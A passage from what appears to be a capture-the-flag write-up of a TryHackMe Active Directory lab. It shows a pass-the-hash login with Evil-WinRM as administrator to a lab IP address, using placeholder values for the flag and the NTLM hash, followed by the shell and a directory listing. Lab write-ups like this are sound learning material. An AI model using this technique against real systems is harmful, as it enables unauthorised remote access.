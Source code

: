 We can apparently directly send the hash to auth, instead of first cracking it. Quite convenient, aye!

#### Using a tool called Evil-WinRM what option will allow us to use a hash?
When in doubt, always check the `-h` command!


```
┌──(kali㉿kali)-[~/Desktop/tools]
└─$ evil-winrm -i 10.10.99.177 -u administrator {nice flag here} {admin's NLTM hash}

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

And we are in :stonks:

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                {item2}
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                {user1}
```

GG room, very fun. Lots to learn!
